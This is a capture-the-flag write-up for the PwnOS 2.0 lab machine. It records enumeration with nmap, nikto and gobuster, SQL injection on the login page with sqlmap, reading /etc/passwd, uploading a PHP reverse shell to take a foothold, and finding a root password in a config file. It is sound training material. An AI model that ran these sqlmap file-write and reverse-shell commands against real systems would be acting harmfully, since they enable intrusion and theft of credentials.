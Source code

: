 # Topic: PWNOS 2.0

# Subject: CTF

# Reported by : Shirinov Turan


Started with `nmap` scan with the following syntax:

`nmap -vv -A -T4 -p- 10.10.10.100`

Open ports –

22 -> ssh OpenSSH 5.8p1 Debian 1ubuntu3 -> OpenSSH < 6.6 SFTP - Command
Execution

80-> http Apache httpd 2.2.17 (Ubuntu) -> Apache Struts 2.0.1 < 2.3.33 / 2.5 <
2.5.10 - Arbitrary Code Execution


![nmap](https://github.com/ShTuran/CTFs/assets/111232034/64b2cb9b-1a1d-44ce-877c-249ec23482d4)


Begin with http enum:

After that, I went to web page -> http://10.10.10.100

- Admin email -> admin@isints.com - Dan (from users table)
- Site is PHP based


  
As a second step, I run nikto to see any vulnerability regarding to
webpage:
I’ve got a lot of information I here.

![nikto](https://github.com/ShTuran/CTFs/assets/111232034/21a138d8-d65d-40ab-bb2e-0b1e40125602)


As a third step I’ve run gobuster to enumerate the directories:
Some of them were obvious, but there are some directories we’ve never seen
before.


![gobuster](https://github.com/ShTuran/CTFs/assets/111232034/73b626a2-c979-4e55-997f-07b6289c600b)


Immediately, I went to login page:

10.10.10.100/login.php is vulnerable to SQL injection which we get -> error based
slq injection lead to information disclosure and via the `sqlmap` - I find that
backend DBMS is MySQL, Linux Ubuntu 11.04, PHP 5.3.5



I have captured the request via burpsuite and put it a file called `loginpage`
Found the database name `sqlmap -r loginpage –crawl=3 --dbs` which we got ->
ch16 database name.
`sqlmap syntax` - > `sqlmap -r loginpage -crawl=3 -D ch16 –tables -dump`
Table name - `users`

Using sqlmap I have just confirmed that ‘email ’ is indeed vulnerable to SQLi
Command was used: sqlmap -u http://10.10.10.100/login.php --
data="email=test&pass=test&submit=Login&submitted=TRUE".

![sqlmap](https://github.com/ShTuran/CTFs/assets/111232034/c14f1d9c-fa90-41ca-a906-d7ffcbc1657b)


And adding –dump will gave us what we need, even though I do get the hash of
admin I could not be able to crack it. I also tried to get –os-shell but it was not
successful neither.

![sqlmap (2)](https://github.com/ShTuran/CTFs/assets/111232034/f1cf2d43-7274-4500-aa9b-c6ad25044a26)

And via the sqlmap I read the /etc/passwd:
It means that, I can read the file. The question was can I write as well? Yes. I
uploaded php-reverse shell:

![etcpasswd](https://github.com/ShTuran/CTFs/assets/111232034/c201204e-268f-44f6-9d61-168d80696be5)


Command was used: sqlmap -u http://10.10.10.100/login.php --
data="email=test&pass=test&submit=Login&submitted=TRUE" --file-write
/home/kali/phprs --file-dest /var/www/rev.php. And visited the .rev.php I do
get reverse shell. At this point, I only need to escelate the priveleges.
And listened on port 1234; got foothold.

![foothold](https://github.com/ShTuran/CTFs/assets/111232034/2da5b572-cfef-493f-b4c0-e43333aa5ff9)


After some recon – I found 2 “mysqli_connect.php” which one of them in
the /var directory and one of them in /var/www directory. The one which in
/var directory was containing the root password.


![root](https://github.com/ShTuran/CTFs/assets/111232034/cc371ab3-dd84-473c-aff9-d379aff3435b)


Additional vulnerabilites:
- 10.10.10.100/blog has xss in the `search`.

- Simple PHP Blog 0.4.0 is vulnerable to file upload when I `search PHP
Blog 0.4.0` I got the meterpreter shell but I could not be able to escelate the
priveleges from there.

- This module combines three separate issues within The Simple PHP
Blog (<= 0.4.0) application to upload arbitrary data and thus execute a shell.
The first vulnerability exposes the hash file (password.txt) to
unauthenticated users. The second vulnerability lies within the image upload
system provided to logged-in users; there is no image validation function in
the blogger to prevent an authenticated user from uploading any file type.
The third vulnerability occurs within the blog comment functionality,
allowing arbitrary files to be deleted.
Reference of above text
https://www.rapid7.com/db/modules/exploit/unix/webapp/sphpblog_file_upl
oad/
